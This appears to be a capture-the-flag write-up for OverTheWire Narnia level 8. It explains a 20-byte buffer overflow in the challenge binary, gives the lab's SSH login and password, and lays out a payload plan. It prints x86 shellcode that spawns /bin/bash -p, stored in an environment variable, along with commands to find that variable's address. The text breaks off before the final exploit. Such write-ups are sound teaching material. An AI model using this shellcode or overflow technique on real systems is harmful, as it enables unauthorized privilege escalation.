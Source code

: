 # Level 8
ssh narnia8@narnia.labs.overthewire.org -p 2226  
Pass: 1aBcDgPttG  
An initial run of the binary shows the following:  
<img width="418" alt="Screen Shot 2024-04-01 at 7 09 15 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/91b5823e-0c3d-4dc9-9024-3188504b3ea4">  

In the C source file we see that the program takes a command line argument and then passes it to func.  
We see that we are basically copying the character array we pass into the program into "bok" until it hits a null byte. We see that "bok" is allocated 20 bytes.  It is clear that there is a buffer overflow vulnerability because the string we input does not have to stop at 20 bytes but after that "bok" will be full and we will start overwriting the address of argv[1] and it wont be pointing to our payload anymore. Almost acts like a canary.  

So basically we want to 1. overwrite bok with 20 junk bytes 2. preserve address of argv[1] 3. 4 junk bytes for ebp 5. addr of a enviornment variable we control   

Make a file /tmp/getenvvaraddr.c in the tmp directory to find the address of the enviornment variable we are going to make:
<img width="609" alt="Screen Shot 2024-04-01 at 8 27 27 PM" src="https://github.com/tylerdionne/OverTheWire-Narnia-Write-ups/assets/143131384/dbf7d601-e9bb-4fdb-b24a-dbd32493cbf5">  

Now make an enviornment variable with the shellcode we used from the previous challenges stored in it:
export LVL8="$(perl -e 'print"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')"  

Now compile the c file we made and run it with the name of this enviornment variable.  
$ gcc -m32 getenvvaraddr.c -o getenvvaraddr  
$ ./getenvvaraddr LVL8  
This gives us the following output:  
addr of LVL8: 0xffffdfa5  


